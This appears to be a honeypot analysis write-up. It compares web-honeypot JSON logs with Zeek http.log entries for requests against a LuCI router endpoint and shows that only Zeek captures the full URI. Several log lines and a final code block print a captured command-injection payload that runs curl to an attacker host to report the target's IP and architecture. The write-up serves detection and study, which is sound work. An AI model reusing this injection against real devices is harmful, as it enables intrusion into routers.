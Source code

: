 The 5 sets of 3 HTTP requests can be seen in webhoneypot-2023-11-09.log and Zeek http.log

Here is a sample of the 3 requests from **webhoneypot-2023-11-09.log**:
```json
{"time":"2023-11-09T03:48:22.430959","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}

{"time":"2023-11-09T03:48:22.432131","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/cgi-bin/luci/;stok=/locale","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}

{"time":"2023-11-09T03:48:22.433258","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/cgi-bin/luci/;stok=/locale","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}
```

### Notice how the command injection is not visible in the webhoneypot logs.  It is only visible in the Zeek http.log which shows the full URI.
Zeek http.log shows the following:
```verilog
command: 
cat tests/logs/zeek/http.log | zeek-cut id.orig_h id.orig_p id.resp_h id.resp_p method host uri | grep "2.237.57.70"

id.orig_h id.orig_p id.resp_h id.resp_p method host uri
2.237.57.70     53382   172.31.5.68     8080    GET     54.67.87.80     /
2.237.57.70     59202   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     52980   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     64540   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     50066   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
```

#### Here we can clearly see the command injection in the URI.  The command is the following:
```bash
curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);
```

